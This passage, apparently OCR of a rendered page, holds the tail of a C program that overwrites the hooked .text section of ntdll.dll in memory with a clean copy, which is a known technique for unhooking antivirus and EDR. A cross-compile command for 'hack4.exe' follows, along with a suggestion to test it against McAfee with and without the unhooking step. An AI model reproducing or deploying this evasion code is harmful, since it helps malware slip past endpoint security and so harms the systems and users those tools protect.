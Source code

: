 ```c 
      // copy the contents of the .text section from the clean ntdll.dll to the infected version
      memcpy(lpStartingPageAddress, (LPVOID)((DWORD_PTR)lpNtdllMappingAddress + (DWORD_PTR)pHookedSectionHeader->VirtualAddress), pHookedSectionHeader->Misc.VirtualSize);

      // restore the original protection of the memory region
      bIsProtected = VirtualProtect(lpStartingPageAddress, dwSizeOfTheRegion, dwOldProtection, &dwOldProtection);
    }
  }

  // cleanup
  CloseHandle(hProcess);
  CloseHandle(hNtdllFile);
  CloseHandle(hNtdllMapping);
  FreeLibrary(hNtdllModule);

  return 0;
}
```

##### Compile with :

```bash 
x86_64-w64-mingw32-g++ -O2 hack4.c -o hack4.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -lpsapi -w
```

We could install McAfee and try with and without unhooking part.
